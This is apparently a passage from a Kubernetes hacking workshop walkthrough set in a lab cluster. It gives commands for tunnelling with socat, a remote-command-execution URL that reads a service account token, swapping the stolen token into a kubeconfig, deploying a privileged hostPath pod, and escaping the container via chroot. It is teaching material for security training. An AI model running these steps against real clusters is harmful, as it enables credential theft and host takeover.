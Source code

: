# Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 6: Escaping our Namespace](#part-6--escaping-our-namespace)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 6: Escaping our Namespace

Now that we know about another port 5000 listener in some other Namespace, we will use some simple TCP
tunneling to attack it.

1. In the exec shell still open from the prior step, we will use the `socat` tool to create a tunnel
   from it toward this new listener: `socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000` _(replace `10.244.162.132` with the IP from your nmap results)_
   ```shell
   root@snyky:~# socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000
   ```

2. In a new shell, set your Kubernetes config variable and create a port-forward into the snyky pod:
   ```shell
   $ export KUBECONFIG=demokubeconfig
   $ kubectl port-forward snyky 5001 -n secure
   Forwarding from 127.0.0.1:5001 -> 5001
   Forwarding from [::1]:5001 -> 5001
   ```
   With these tunnels in place, any TCP traffic connecting to your local machine at port 5001 will be
   forwarded to the snyky pod at port 5001.  Then, the `socat` process will forward that traffic from
   the snyky pod to the mystery service on port 5000.


3. Open http://localhost:5001 in your browser...
   ![](media/02-06-03-sameapp.png)
   The same app _is_ running there! (FYI: we didn't need the `/webadmin` context because we aren't traversing
   an ingress)


4. Let's see if this copy of the application has the RCE vulnerability by looking for it's token: http://localhost:5001?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   ![](media/02-06-04-token.png)
   Yes it is and now we have another token we can experiment with! 😈


5. Go ahead and kill the port-forward, close that terminal and kill socat processes and exit the exec session from the snyky
   pod. We won't be needing them anymore.


6. Open the `demokubeconfig` file in an editor comment out the existing `token:` and insert a new line with the token in
   your browser from the new server.
    ```yaml
    ...
    users:
    - name: snyk
      user:
        token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    ```
   Save and exit your editor.


7. With this new token in place, let's try to list pods in the `default` Namespace again: `kubectl get pods`
    ```shell
    $ kubectl get pod
    NAME                        READY   STATUS    RESTARTS   AGE
    webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
    ```
   Well look at that! It appears that someone deployed a copy of the application into the `default` Namespace and, thus,
   we now have a `default` ServiceAccount token at our disposal!

8. We should see what permissions this new token gives us with `kubectl auth can-i --list --token=[paste token here]`
    ```shell
    $ kubectl auth can-i --list --token=eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ...
    Resources                                       Non-Resource URLs                     Resource Names   Verbs
    *.*                                             []                                    []               [create get watch list patch delete deletecollection update]
    ```
   Well, isn't that nice!  Full access to all (`*.*`) resources in the default Namespace! This happens more often that
   you might think because most developers only write RBAC restrictions for resources in the Namespaces their applications
   live in, leaving the `default` to me managed by someone else. Unfortunaly—for this cluster—the default RBAC for the `default` 
   `ServiceAccount` is wide open!

9. Now we can try to deploy a pod in the `default` Namespace; let's go ahead and try that
   [privileged Pod](../demo_yamls/nonroot_priv.yaml) again and see if it works:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   
   $ kubectl get pods
   NAME                        READY   STATUS    RESTARTS   AGE
   nonroot-priv                1/1     Running   0          5s
   webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
   ```
   That appears to have worked which indicates that PSP restriction in the `default` Namespace are relaxed/non-existant.


10. Exec into this pod and see what we can do: `kubectl exec -it nonroot-priv -- bash`
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@nonroot-priv:/$ sudo su
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ssl    0:00 /usr/local/bin/gotty --config /opt/gotty.conf /bin/bash
        17 pts/0    Ss     0:00 bash
        30 pts/0    D+     0:00 sudo su
        31 pts/1    Ss     0:00 sudo su
        32 pts/1    S      0:00 su
        33 pts/1    S      0:00 bash
        35 pts/1    R+     0:00 ps ax
   ```
   Looking good so far, but if you look at the manifest for this pod, we are mounting a host volume at path `/chroot`:
   ```yaml
   ...
       volumeMounts:
         - mountPath: /chroot
           name: host
       securityContext:
         runAsUser: 999
         privileged: true
     volumes:
     - name: host
       hostPath:
         path: /
         type: Directory
   ```
   ... so let's `chroot /chroot` and see what we get...
   ```shell
   root@nonroot-priv:/# chroot /chroot
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ss     0:00 /sbin/init
        83 ?        S<s    0:01 /lib/systemd/systemd-journald
        95 ?        Ssl    6:47 /usr/local/bin/containerd
       167 ?        Ssl    8:32 /usr/bin/kubelet --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.conf --conf
       250 ?        Sl     1:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id f6e4526e4b313c3cb9c6dbbb1d0c8050e10611a8f567d6148485acda80b2713a -
       269 ?        Ss     0:00 /pause
       500 ?        Sl     0:09 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 18aadb6e8ef7b60069841da12737e66bea74891089126081d2208d07f5a92c42 -
       519 ?        Ss     0:00 /pause
       549 ?        Ssl    0:11 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --hostname-override=kind-worker
       994 ?        Ss     0:00 /usr/local/bin/runsvdir -P /etc/service/enabled
    ...
   ```
   Those are the processes running on the host.  We've effectively escaped this container by mounting the host `/` volume
   into the container and `chroot`ing to it. _(In case you weren't aware, `ps` uses the `/proc` filesystem for its PID info)_

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSP configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods
* The `secure` Namespace PSP is **not** configured with `allowPrivilegeEscalation:false` so SUID binaries are effective
* Another application is listening at port 5000 and it is **not** in the `secure` Namespace. (We know
  it is not in the same Namespace because we would have seen it via `kubectl get`.)  We don't know what
  Namespace it is in yet.
* Apparently NetworkPolicy is either not deployed or is far too loose to allow that scan to find listeners
  outside the Namespace.
 
#### New info:
* The new IP address is another copy of the vulnerable application
* We've found another ServiceAccount token from this copy of the application 
* This copy of the application is running in the `default` Namespace
* The ServiceAccount and Pod configurations in the `default` Namespace is using the default `automountServiceAccountToken` setting of `true`
* RBAC is wide open for this ServiceAccount in the `default` Namespace
* PSPs are lax/non-existant in the `default` Namespace, allowing us to deploy privileged containers that we can easily escape.

![](media/02-06-Checkpoint-1.png)

#### Timeline of Doom
Updated progress toward total ownership of the target cluster.
![](media/02-06-Timeline-1.png)

## Next step
In the [next step](02g-exploit.md) we cross the finish line by taking over the cluster!
